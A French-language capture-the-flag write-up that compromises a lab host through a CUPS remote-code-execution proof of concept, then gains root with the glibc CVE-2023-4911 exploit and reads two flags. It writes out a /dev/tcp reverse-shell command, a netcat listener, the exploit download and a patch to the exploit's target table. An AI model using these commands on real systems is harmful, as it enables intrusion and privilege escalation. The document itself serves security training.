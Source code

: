 # WRITEUP_ORAL


# Exploitation CUPS & CVE-2023-4911

## Scan de la machine

```bash
sudo nmap 172.24.70.169
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-08 08:43 CEST
Nmap scan report for 172.24.70.169
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp
Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
```

## Accès à l'interface web CUPS

Présence d'un serveur d'impression, mais je ne suis pas autorisé à accéder à l'interface web :

```bash
curl -I http://172.24.70.169:631
```

```
HTTP/1.1 403 Interdit
Connection: close
Content-Language: fr_FR
Content-Length: 368
Content-Type: text/html; charset=utf-8
Date: Tue, 08 Oct 2024 06:44:36 GMT
Accept-Encoding: gzip, deflate, identity
Server: CUPS/2.4 IPP/2.1
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

## Est-ce que cette version de CUPS est vulnérable ?

### Sources :

- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
- https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8#:~:text=from%20the%20PPD.-,PoC,-Uses%20the%20ippserver
- https://github.com/RickdeJager/cupshax/
- https://github.com/IppSec/evil-cups/blob/main/evilcups.py

Différents POCs sont disponibles sur internet.

---

## Sur la machine attaquante

Je mets un port en écoute :

```bash
nc -lvp 9001
```

Puis je lance l'attaque (ici, l'adresse 172.24.8.203 est l'adresse IP de la machine attaquante, 172.24.70.169 est celle de la machine attaquée) :

```bash
pip install -r requirements.txt
python3 evilcups.py 172.24.8.203 172.24.70.169 'bash -c "bash -i >& /dev/tcp/172.24.8.203/9001 0>&1"'
```

J'attends que la machine distante détecte l'imprimante, et que la victime démarre une impression.  
Au bout de quelques minutes, j'obtiens un shell avec les droits de l'utilisateur `lp` :

```
172.24.70.169: inverse host lookup failed: Unknown host
connect to [172.24.8.203] from (UNKNOWN) [172.24.70.169] 37206
bash: impossible de régler le groupe de processus du terminal (979): Ioctl() inapproprié pour un périphérique
bash: pas de contrôle de tâche dans ce shell
lp@debian:/$
```

---

## Récupération du premier flag

```bash
lp@debian:/$ ls -l /
```

```
...
-rw-r--r--   1 root root    43  7 oct.  13:40 flag-part1.txt
-rw-r-----   1 root root    36  7 oct.  13:43 flag-part2.txt
...
```

```bash
lp@debian:/$ cat /flag-part1.txt
```

```
part 1 : fl@g{?DidYouMake4g00dlmpression?}
```

---

## Partie 2 : Escalade de privilèges

Il faut des privilèges élevés (root) pour lire le fichier contenant le deuxième flag : `/flag-part2.txt`.  
Il faut que je trouve un moyen de passer root.

### Vérification de la version de `libc`

```bash
lp@debian:/$ dpkg -l | grep libc6
```

```
ii  libc6:amd64  2.36-9  amd64  GNU C Library: Shared libraries
```

La version de `libc` est vulnérable à la **CVE-2023-4911**.

---

## Exploitation de la vulnérabilité

On télécharge le POC permettant d'exploiter la vulnérabilité, sur ma machine attaquante.  
Je l'expose via un petit serveur web python :

```bash
wget -U "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36" https://haxx.in/files/gnu-acme.py
python3 -m http.server 9000
```

### Depuis la machine victime :

```bash
temp="$(mktemp -d)"
cd $temp
wget http://172.24.8.203:9000/gnu-acme.py
```

Et on exécute :

```bash
python3 gnu-acme.py
```

```
$$$ glibc ld.so (CVE-2023-4911) exploit $$$
    -- by blasty <peter@haxx.in> --
[i] libc = /lib/x86_64-linux-gnu/libc.so.6
[i] suid target = /usr/bin/su, suid_args = ['--help']
[i] ld.so = /lib64/ld-linux-x86-64.so.2
[i] ld.so build id = 4286bd11475e673b194ee969f5f9e9759695e644
[i] __libc_start_main = 0x271c0
[i] using hax path b'\x08' at offset -8
[i] wrote patched libc.so.6
error: no target info found for build id 4286bd11475e673b194ee969f5f9e9759695e644
```

### Correction du script

On modifie légèrement le code python en ajoutant ce `build id` dans le dictionnaire `TARGETS` :

```python
TARGETS = {
    "4286bd11475e673b194ee969f5f9e9759695e644": 561,
    ...
}
```

Et on relance :

```bash
python3 gnu-acme.py
```

```
$$$ glibc ld.so (CVE-2023-4911) exploit $$$
    -- by blasty <peter@haxx.in> --
[i] libc = /lib/x86_64-linux-gnu/libc.so.6
[i] suid target = /bin/su, suid_args = ['--help']
[i] ld.so = /lib64/ld-linux-x86-64.so.2
[i] ld.so build id = aa1b0b998999c397062e1016f0c95dc0e8820117
[i] __libc_start_main = 0x29dc0
[i] using hax path b'"' at offset -20
[i] wrote patched libc.so.6
[i] using stack addr 0x7ffe10101008
............................................
```

---

## Passage root

Au bout d'un moment, plus rien ne se passe. On tape une commande :

```bash
id
```

```
uid=0(root) gid=7(lp) groups=7(lp)
```

On est bien root. On affiche le flag :

```bash
cat /flag-part2.txt
```

```
part 2 : fl@g{///100neyTun4bleS///}
```
